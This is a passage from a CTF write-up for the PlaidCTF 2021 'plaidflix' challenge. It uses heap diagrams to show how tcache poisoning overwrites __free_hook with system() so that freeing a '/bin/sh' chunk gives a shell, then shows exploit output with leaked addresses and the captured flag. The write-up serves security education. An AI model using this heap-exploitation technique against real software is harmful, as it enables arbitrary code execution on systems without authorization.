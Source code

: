The tcache now looked like this:  
```  
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+  
| feedback #8 | __free_hook |  
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+  
```

The heap layout now looked something like this:  
```  
...  
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+  
| size 0x110 - feedback #0  |  
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+  
...  
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+  
| size 0x110 - feedback #4  |  
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+  
| size 0x110 - feedback #5  |  
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+  
| size 0x130 contact detail |  
+- - - - - - - - - - - - -  + <- feedback #7 chunk start  
| size 0x110 - feedback #7  |  
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+ <- feedback #9 chunk start  
| size 0x110 - feedback #9  |  
+- - - - - - - - - - - - -  + <- feedback #7 chunk end  
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+  
| size 0x110 - feedback #8  | <- in tcache  
| flink=> __free_hook       | --- overwritten forward and back pointers  
| blink=> __free_hook       |  
+- - - - - - - - - - - - -  + <- feedback #9 chunk end  
|                           |  
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+  
| size 0xe0 - small chunk   | <- previous unsorted chunk, sorted into small bin  
| 0xe0 ( prev_size )        |  
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+  
| size 0x110 - feedback  X  | <- unused feedback created to sort unsorted chunk  
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+  
|         top chunk         |  
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+  
```

We popped off `feedback #8` by creating a new feedback with a message of
`/bin/sh\x00`.  We then popped off the `__free_hook` value from tcache by
creating yet another feedback.  This message wrote the address of `system()`
to the `__free_hook` address.  We then deleted `feedback #8` again to trigger
`system("/bin/sh")` and spawn a shell to read the flag.

```  
[+] Opening connection to plaidflix.pwni.ng on port 1337: Done  
heap_leak: 0x55a77e6b62c0  
heap_base: 0x55a77e6b6000  
libc_leak: 0x7feb0d18fc80  
libc_base: 0x7feb0cfac000  
free_hook: 0x7feb0d192e40  
[*] Switching to interactive mode  
$ cat flag.txt  
PCTF{N0w_YOu_Kn0w_S4f3_L1nk1ng!}  
```  

Original writeup (https://github.com/x64x6a/ctf-
writeups/tree/master/PlaidCTF_2021/pwnable/plaidflix).